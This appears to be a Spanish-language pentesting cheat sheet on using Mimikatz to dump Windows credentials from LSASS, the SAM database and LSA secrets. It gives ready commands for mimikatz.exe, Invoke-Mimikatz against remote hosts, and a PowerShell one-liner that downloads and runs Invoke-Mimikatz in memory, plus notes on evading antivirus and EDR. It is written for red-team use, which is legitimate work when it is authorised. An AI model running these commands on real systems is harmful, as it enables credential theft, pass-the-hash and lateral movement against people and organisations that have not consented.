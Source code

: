 # Mimikatz 

Tags: #Mimikatz #Windows  #LSASS

Mimikatz es una herramienta de seguridad de código abierto desarrollada por Benjamin Delpy (gentilkiwi), ampliamente reconocida en la comunidad de ciberseguridad. Es comúnmente empleada en actividades de Red Teams y evaluaciones de seguridad en sistemas Windows. Su objetivo principal es analizar y aprovechar diversas vulnerabilidades de seguridad en este sistema operativo, siendo especialmente conocida por su capacidad para recuperar contraseñas en texto plano, hashes NTLM y tickets Kerberos directamente desde la memoria. Además, permite realizar técnicas como pass-the-hash, pass-the-ticket y generar tickets Kerberos dorados o plateados, lo que resulta invaluable para movimientos laterales dentro de entornos Active Directory (AD).

Dentro de la sesión de Meterpreter usaremos la extensión de Kiwi para dumpear passwords. Pero debemos de ser 'NT Authority\\System'

# LSASS

El servicio Local Security Authority Subsystem Service (LSASS) en sistemas operativos Windows es crucial para la administración de la política de seguridad y maneja la autenticación de usuarios en el sistema local. Para un pentester, el entendimiento profundo de LSASS y cómo interactúa con los componentes de seguridad de Windows es fundamental para la evaluación de la postura de seguridad de un sistema y la ejecución de ciertas formas de ataques. Aquí hay varios aspectos de LSASS que son de especial interés:

```bash 
# Función y Rol de LSASS

- Autenticación: LSASS es responsable de la autenticación de usuarios para las sesiones de inicio de sesión en una computadora.
- Creación de Tokens: Cuando se autentica a un usuario, LSASS genera un "token de acceso" que contiene los derechos y privilegios del usuario.
- Almacenamiento de Credenciales: En el proceso de LSASS, las credenciales, como hashes de contraseñas y tickets Kerberos, son almacenados en la memoria.
    

# Ataques y Tácticas Asociadas con LSASS
- Dumping de Credenciales: Las herramientas de extracción de credenciales como Mimikatz explotan el acceso a LSASS para obtener hashes de contraseñas y tickets de autenticación.
- Pass-the-Hash / Pass-the-Ticket: Las credenciales extraídas pueden ser usadas para realizar estos ataques, permitiendo a los atacantes autenticarse como otro usuario sin conocer la contraseña en texto claro.
- Inyección de Código: Los atacantes pueden intentar inyectar código malicioso en el proceso LSASS para interceptar credenciales o elevar privilegios.
    

Técnicas de Protección y Evasión
- Protección de Memoria: Los pentesters deben estar al tanto de las características como Credential Guard que protegen la memoria de LSASS.
- Detección de Anomalías: La manipulación de LSASS puede disparar alertas en soluciones de detección de intrusiones y en los sistemas de protección contra malware.
- Técnicas de Evasión: Para evitar la detección, los pentesters pueden necesitar usar técnicas de evasión o desarrollar nuevas herramientas que no estén firmadas por firmas de AV.
```

## Hash NTLM

```bash 
El hash NTLM (NT LAN Manager) es una función hash utilizada por Microsoft para almacenar contraseñas de usuario. Es un método de cifrado que ha sido utilizado en varios protocolos de autenticación de Microsoft a lo largo de los años, incluidos los protocolos de autenticación de red como NTLMv1 y NTLMv2.

Características y detalles sobre el hash NTLM:

1. Forma de Creación: El hash NTLM se crea tomando la contraseña del usuario, convirtiéndola a Unicode y luego aplicando una función hash MD4.
    
2. No tiene SALT: A diferencia de otros métodos de almacenamiento de contraseñas, el hash NTLM no utiliza un "salto" (valor aleatorio agregado para hacer que el hashing sea más seguro). Esto lo hace vulnerable a ataques de fuerza bruta y a ataques de tabla arco iris, donde los atacantes usan tablas precomputadas para buscar rápidamente el valor original de un hash.
    
3. Uso en Protocolos: Aunque NTLM ha sido reemplazado en gran medida por métodos más seguros como Kerberos en entornos modernos de Active Directory, todavía se encuentra en muchas redes debido a la retrocompatibilidad o configuraciones heredadas.
    
4. Vulnerabilidades: Debido a sus debilidades inherentes y la falta de características de seguridad modernas, NTLM es susceptible a una variedad de ataques, como el mencionado ataque de tabla arco iris, ataques de relevo NTLM, y otros.
    
5. Recomendación: Debido a las debilidades conocidas asociadas con NTLM, se recomienda deshabilitar su uso siempre que sea posible, en favor de protocolos de autenticación más seguros como Kerberos.
```

## Funciones 

```bash 
1. 'privilege::debug': Este comando en Mimikatz solicita privilegios de depuración para el proceso Mimikatz. Los privilegios de depuración son necesarios para acceder a ciertas áreas de la memoria del sistema operativo y realizar operaciones que normalmente están restringidas.
    
2. 'token::elevate': Este comando intenta elevar los privilegios de Mimikatz. En el contexto de Mimikatz, esto generalmente significa obtener un token de seguridad de un proceso con privilegios más altos, permitiendo que Mimikatz opere con esos privilegios elevados.
    
3. 'sekurlsa::logonpasswords': Este comando extrae las contraseñas y otros datos de autenticación de la memoria del sistema, específicamente desde la seguridad de Kerberos, SSP, msv1_0, entre otros. Utiliza el módulo sekurlsa de Mimikatz para acceder a la información almacenada por el proceso LSASS (Local Security Authority Subsystem Service).

    
4. 'lsadump::sam': Este comando extrae las credenciales almacenadas en la base de datos SAM (Security Accounts Manager). La SAM contiene las credenciales de todos los usuarios locales del sistema y se utiliza generalmente para obtener hashes de contraseñas de cuentas locales.

    
5. 'lsadump::secrets': Este comando se utiliza para extraer "secretos" almacenados por el sistema, como claves de acceso y otros datos sensibles, que pueden estar almacenados en el registro o en el servicio LSASS.
```

## Extracción de credenciales con binario .exe

```bash 
Pros
- Funcionalidad Completa: La versión ejecutable suele tener todas las funciones de Mimikatz disponibles y está actualizada con las últimas características. 
- Rapidez: Al ejecutar el binario directamente, se suele tener una ejecución más rápida y directa de las funciones deseadas.
    

Contras
- Detección: Es más probable que los antivirus y las herramientas de seguridad modernas detecten la versión ejecutable debido a sus firmas conocidas. 
- Necesidad de Escritura en el Disco: A menos que se cargue en la memoria de manera especial, es probable que requiera ser escrito en el disco para su ejecución, lo que aumenta el riesgo de detección y deja evidencia forense. 
- Bloqueo por Políticas de Seguridad: Políticas de grupo y configuraciones de seguridad de Windows pueden impedir la ejecución de binarios desconocidos o no firmados.
```

* [Mimikatz](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/kali/master/x64?ref_type=heads)

```bash 
❯ net user                            # Miramos todos los usuarios existentes y sus grupos
❯ net user /domain                    # Identificar los usuarios del dominio
```

```powershell
# Ejecutar Mimikatz como 'Administrador'
❯ .\mimikatz.exe 'privilege::debug' 'token::elevate' 'sekurlsa::logonpasswords' 'lsadump::sam' 'lsadump::secrets' exit


Nota1:
	1. sekurlsa::logonpasswords = Muestra info de cada usuario 'Name, Hash NTLM, SHA1, Domain'. El 'SID' es un identificador unico del objeto en el DC
	2. Existen usuarios por defecto 'DWM-8, DWM-10, UMDF-8, UMDF-10, etc...' ya que tienen como dominio 'Window Manager, Font Driver Host'
	3. Mirar si la 'session' = 'Service from 0', si es asi guardar toda la salida del usuario ya que se puede utilizar
	4. Si al final del 'username' hay un '$' quiere decir que es un objeto de tipo computador
	5. Valores importantes a guardar 'SID, Username, Domain, NTLM, SHA1'


Nota2:
	1. lsadump::sam = Muestra las credenciales en la DB SAM
	2. Guardar los hashes 'NTLM' del usuario 'Administrator' local 
```

```powershell
❯ Invoke-mimikatz -DumpCreds          # Dumpear las credenciales locales, obtener el NTLM y hacer un PtH
❯ Invoke-mimikatz -DumpCreds -ComputerName @("comp1","comp2")
```

## Extracción de credenciales con Powershell 

```bash 
Pros
- Evasión: La versión de PowerShell puede ser más sigilosa, evadiendo mejor la detección de antivirus y soluciones EDR que buscan hashes de archivos conocidos.
- Flexibilidad: Puede ser más fácil de ejecutar en memoria sin necesidad de escribir en el disco, lo cual es menos intrusivo y reduce la huella en el sistema de la víctima.
- Integración: Se integra bien con otras herramientas y scripts de PowerShell, facilitando su uso en cadenas de ataque complejas.
    

Contras
- Funcionalidad Limitada: Puede no tener todas las funciones que la versión completa .exe ofrece.
- Logging de PowerShell: Las versiones más recientes de Windows tienen mejoras en el registro de actividades de PowerShell, lo que podría dejar rastros para los equipos de respuesta a incidentes.
- Bloqueo de Scripts: Las políticas de ejecución de scripts y restricciones de firmas digitales pueden bloquear la ejecución de scripts PowerShell no firmados.
```

```powershell 
# Descargamos el binario del repositorio
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1');

# Utilizamos la funcion para ejecutar Mimikatz
❯ Invoke-Mimikatz -Command '"token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::secrets"'
```

## Errores en Mimikatz 

```bash 
1. 'ERROR kuhl_m_sekurlsa_acquireLSA ; Key import'
Para solucionar el error utilizar una version antigua de mimikatz:

    https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/x64

2. 'ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege'
Para solucionar el error se debe correr como administrador el proceso desde donde se ejecutara el binario.
```